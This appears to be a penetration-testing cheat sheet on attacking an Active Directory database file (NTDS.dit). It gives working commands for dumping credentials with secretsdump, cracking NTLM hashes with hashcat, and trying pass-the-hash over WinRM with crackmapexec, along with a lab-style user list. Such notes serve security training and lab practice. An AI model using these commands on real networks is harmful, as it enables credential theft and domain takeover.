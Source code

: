 # NTDS.dit -- Secretsdump

This use case is for the situation that you have access to an NTDS.dit file.

* This file is essentially the database that holds all AD users, hashes, objects, etc.
* As a result, it is a gold mine and its secrets can be dumped via secretsdump.

<mark style="color:yellow;">First, dump the NTDS.dit database file with secretsdump</mark>:

### Dump Secrets

```
impacket-secretsdump -ntds ntds.dit -system SYSTEM -sam SAM LOCAL | tee secrets
```

<mark style="color:yellow;">Next, copy the Kerberos portion of the dump and put it in a file called secrets.txt (replace/overwrite as needed)</mark>.

After, we can then attempt to crack with Hashcat:

```
.\hashcat.exe -m 1000 hashes.txt .\rockyou.txt

.\hashcat.exe hashes.txt .\rockyou.txt
```

### Unable to Crack with Hashcat? Let's Pass-The-Hash!

* We can attempt a <mark style="color:yellow;">Pass-The-Hash attack</mark>
* First, <mark style="color:yellow;">we need to separate the users and hashes into two different files</mark>

users.txt:

```
cat secrets | cut -d":" -f1 | tee users.txt

cat users.txt 

Administrator
Guest
RESOURCEDC$
krbtgt
M.Mason
K.Keen
L.Livingstone
J.Johnson
V.Ventz
S.Swanson
P.Parker
R.Robinson
D.Durant
G.Goldberg
```

* <mark style="color:yellow;">We now have a neat list of users</mark>

hashes.txt:

```
cat secrets | cut -d":" -f4 | tee hashes.txt
```

* <mark style="color:yellow;">We now have a neat list of hashes</mark>

### CrackMapExec: Pass-The-Hash

```
crackmapexec winrm 192.168.81.175 -u users.txt -H hashes.txt
```
